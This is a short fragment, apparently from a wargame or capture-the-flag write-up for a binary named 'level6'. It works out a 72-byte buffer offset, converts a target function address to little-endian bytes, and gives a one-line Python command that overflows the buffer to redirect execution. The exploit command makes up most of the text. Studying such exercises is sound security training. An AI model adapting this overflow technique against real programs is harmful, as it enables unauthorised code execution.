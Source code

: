 n  = 08048454 = \x54\x84\x04\x08

0x40 = 64

eax = 0x804a050 - 0x804a008 = 0x48 = 72

./level6 $(python -c "print ('a' * 72 + '\x54\x84\x04\x08' + '\x00')")